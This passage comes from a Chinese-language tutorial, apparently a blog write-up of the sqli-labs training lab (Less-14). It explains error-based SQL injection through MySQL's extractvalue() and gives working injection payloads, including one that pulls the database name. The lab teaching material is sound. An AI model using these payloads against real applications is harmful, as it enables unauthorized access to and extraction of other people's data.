 
<img src="https://i-blog.csdnimg.cn/blog_migrate/296a1b60b8515c1effb8fbe194bdfffb.png" alt="" style="max-height:339px; box-sizing:content-box;" />


group_concat()



<img src="https://i-blog.csdnimg.cn/blog_migrate/71a197b3a7f647f22961703b190bbe21.png" alt="" style="max-height:172px; box-sizing:content-box;" />


### 所以只有concat()才可以 limit

报错注入 还不只有这些 在后面的题继续给出

## Less-14 报错注入 extractvalue()

首先我们要先了解这个函数是什么

```scss
extractvalue(xml字符串，xpath表达式)
 
这个和updatexml一样 都是通过xpath表达式的报错 
 
来实现报错注入
```

这个我们理解后 就可以直接开始了

判断闭合

```cobol
1" or 1=1-- +
```

发现只有 成功和失败 这里就布尔注入

但是我们看看能不能报错注入

```scss
1" or extractvalue(1,0x7e)-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/0e91220b9a8707963be03003e3d53f82.png" alt="" style="max-height:170px; box-sizing:content-box;" />


发现存在了

那我们就开始

爆破数据库

```scss
1" or extractvalue(1,concat(0x7e,(select database())))-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/7506c5931452f521212f42e9b25b0770.png" alt="" style="max-height:127px; box-sizing:content-box;" />
